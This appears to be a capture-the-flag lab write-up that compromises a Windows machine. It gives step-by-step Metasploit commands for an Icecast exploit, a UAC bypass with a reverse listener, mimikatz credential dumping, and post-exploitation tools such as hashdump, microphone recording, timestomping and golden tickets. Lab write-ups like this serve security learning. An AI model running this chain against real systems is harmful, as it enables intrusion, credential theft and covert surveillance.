




# [cd ../](../index.md)
# Ice
> Deploy & hack into a Windows machine, exploiting a very poorly secured media server.

# Start
## Scanning
### Nmap
[nmaps](nmaps.txt)  
There is an interesting port open on 3389. This is Microsoft Remote Desktop (MSRDP).
And an other on 8000 (Icecast).  
And we found one [exploit](https://www.cvedetails.com/cve/CVE-2004-1561/) that we have to use.

## Exploiting
- Open Metasploit
- Select the correct exploit
- Use it :D

```
msfconsole
search icecast
use exploit/windows/http/icecast_header
set RHOSTS 10.10.194.155
exploit
```
- We got a `meterpreter` shell
- We are user:`dark`

## Escalate privileges
- We are on an `x86` system
- Just run an exploit suggester like a *1337 ScR1P7 K1DD0*

```
run post/multi/recon/local_exploit_suggester
```

This takes some time to run so go for a snack :D  
Finally we got some exploits!  

- We need `exploit/windows/local/bypassuac_eventvwr`
- Now background the meterpreter shell with `background` command
- Select the exploit and set it up

```
use exploit/windows/local/bypassuac_eventvwr
set session 1
set LHOST 10.8.22.204
set LPORT 1337
exploit
```
- It could fail some times so just retry xd  
  
- Migrate to an x64 process ( `spoolsv.exe` )

```
ps
migrate 1392
```
  
- If we check `getuid` we are `NT AUTHORITY\SYSTEM` now!!  
W3 4r3 4dM1N5 N0W

## Mimikatz etc
```
load kiwi
```
Kiwi is the updated mimikatz.  
If we hit `help` we can see some new `Kiwi Commands`!
```
creds_all
```
  
Dark's password is `Password01!`  

## Post exploitation
`hashdump` - dumps all of the password hashes  
`screenshare` - allows us to watch the remote user's desktop in real time  
`record_mic` - record from a microphone attached to the system  
`timestomp` - modify timestamps of files on the system  
`golden_ticket_create` - allowing us to authenticate anywhere with ease  
`run post/windows/manage/enable_rdp` - As we have the password for the user 'Dark' we can now authenticate to the machine and access it via remote desktop (MSRDP)  
